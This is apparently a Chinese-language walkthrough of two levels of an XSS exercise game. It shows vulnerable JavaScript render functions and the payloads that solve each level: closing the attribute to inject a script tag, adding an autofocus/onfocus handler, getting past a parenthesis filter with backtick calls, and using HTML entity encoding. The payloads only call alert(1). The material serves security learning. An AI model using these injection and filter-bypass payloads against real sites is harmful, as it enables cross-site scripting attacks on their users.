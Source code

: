 
## 0x02

- server code

```js
function render (input) {
  return '<input type="name" value="' + input + '">'
}
```

- 方法1 闭合标签

```html
//input code
"><script>alert(1);</script>
//html
<input type="name" value=""><script>alert(1);</script>">
```

- 方法2 通过autofocus属性执行本身的focus事件

```html
// input code
 "  autofocus onfocus="alert(1);
//html
<input type="name" value=" "  autofocus onfocus="alert(1);">
```


## 0x03

- server code

```js
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '') //正则匹配过滤了()
  return input
}
```

- 方法1 反引号`绕过


```html
//input code
<script>alert`1`;</script>
//html
<script>alert`1`;</script>
```

- 方法2 编码绕过

HTML实体编码绕过关键字过滤, HTML标签内的实体编码会自动解码。

- 1.进制编码:`&#xH;`(16进制格式)、(10进制形式)，最后的分号可以不要。

- 2.HTML实体编码，即HTMLEncode。
